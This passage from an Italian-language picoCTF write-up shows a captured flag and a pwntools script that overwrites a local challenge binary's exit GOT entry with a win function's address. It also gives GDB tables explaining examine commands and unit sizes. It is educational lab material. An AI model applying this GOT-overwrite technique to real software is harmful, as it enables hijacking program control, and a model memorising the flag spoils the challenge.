> picoCTF{A_s0ng_0f_1C3_and_f1r3_e122890e}
> 
> Segmentation fault (core dumped)

Oppure in codice python:

```python
from pwn import *

# Avviamo il processo
p = process('./vuln')

# Calcoliamo i valori decimali
addr_exit_got = int('0804A01C', 16)
addr_win = int('080485C6', 16)

# Aspettiamo il primo messaggio e inviamo l'indirizzo della GOT
# p.recvuntil(b"Input address")
p.sendline(str(addr_exit_got).encode())

# Aspettiamo la seconda domanda e inviamo l'indirizzo di win
# p.recvuntil(b"Input value?")
p.sendline(str(addr_win).encode())

# Passiamo al controllo manuale per leggere la flag
p.interactive()
```

</aside>

### Quale comando examine usare

#### tabella comandi
| Comando | Cosa visualizza | Caso d'uso tipico |
| :--- | :--- | :--- |
| **x/s** | Stringa (Testo) | Leggere flag, messaggi di errore o input testuali. |
| **x/xw** | Esadecimale (4 byte) | Ispezionare la GOT o lo Stack su sistemi a 32-bit. |
| **x/gx** | Esadecimale (8 byte) | Ispezionare lo Stack o i puntatori su sistemi a 64-bit. |
| **x/i** | Istruzione Assembly | Vedere quali comandi (push, mov, jmp) sta eseguendo la CPU. |
| **x/a** | Indirizzo "intelligente" | Chiedere a GDB di indovinare a quale funzione punta un indirizzo. |

#### tabella taglie
| Lettera | Nome | Dimensione | Architettura / Uso |
| :--- | :--- | :--- | :--- |
| **b** | Byte | 1 byte | Analisi granulare di Shellcode o singoli caratteri. |
| **h** | Half-word | 2 byte | Analisi di dati tipo "short" (poco usato nel pwn). |
| **w** | **Word** | **4 byte** | **Standard per 32-bit** (indirizzi EIP, ESP, ecc.). |
| **g** | **Giant Word** | **8 byte** | **Standard per 64-bit** (indirizzi RIP, RSP, ecc.). |

